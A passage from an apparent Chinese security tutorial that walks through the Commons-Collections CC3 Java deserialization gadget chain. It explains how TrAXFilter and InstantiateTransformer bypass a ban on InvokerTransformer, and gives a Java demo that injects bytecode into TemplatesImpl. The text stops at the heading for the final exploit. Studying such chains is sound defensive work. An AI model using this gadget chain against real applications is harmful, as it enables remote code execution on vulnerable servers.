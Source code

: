 ‍

上述其实是去找谁去调用了`newTransformer()`导致可以连接上动态类加载的`TemplatesImpl`链，所以想到了`InvokerTransformer`当中的类似反射的代码来完成调用但是如果`InvokerTransformer`被ban了，才到真正的CC3 ，因为是绕过了`InvokerTransformer`的限制，采用了另一条链子

‍

作者继续往上跟看谁调用了`newTransformer()`，于是找到了`com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter.java`

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-82e73e764a8613a44b8b5038b42409c5080a1b90.png)

`TrAXFilter`这个类是直接传入Templates类后调用的构造方法就调用了`newTransformer()`方法，也就是说只要找到一个地方可以调用`TrAXFilter`他的构造方法 ，就可以成功连接上动态类加载的后半条链子了

‍

于是作者找到了`\commons-collections-3.2.1.jar!\org\apache\commons\collections\functors\InstantiateTransformer.java`

看一下他的`transform`方法

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-23ca8053498635323d1929e1bfb9d8af64ba2b9b.png)

那么我们就可以根据其构造方法去构造，然后通过之前的办法去调用其`transform`即可全部连接起来

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a54769b195c461c3bf7a478442c695e8427d59b3.png)

‍

写出以下demo

```java
        TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");
        Field _tfField = tc.getDeclaredField("_tfactory");
        _tfField.setAccessible(true);
        _tfField.set(templates, new TransformerFactoryImpl());

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});
        instantiateTransformer.transform(TrAXFilter.class);
```

这样其实就可以调用`TrAXFilter`的构造方法了，那么现在就是去整条链子串起来即可

最后exp
